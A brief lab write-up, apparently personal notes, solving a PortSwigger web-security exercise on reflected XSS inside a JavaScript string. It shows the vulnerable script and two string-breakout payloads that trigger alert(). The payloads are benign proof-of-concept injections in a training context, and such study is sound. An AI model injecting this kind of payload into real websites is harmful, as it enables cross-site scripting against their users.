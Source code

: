 # Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

```bash
# search abc1234 and view page source and look for abc1234

<script> var searchTerms = 'abc1234';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>

# The script basicly creates this
<img src="/resources/images/tracker.gif?searchTerms=abc1234">
```

```bash
# We can bypass this by

';alert();'

# We basicly create this <script>var searchTerms = '';alert();''; which will allow us to run alert.

# You can also use

'-alert(1)-'
```
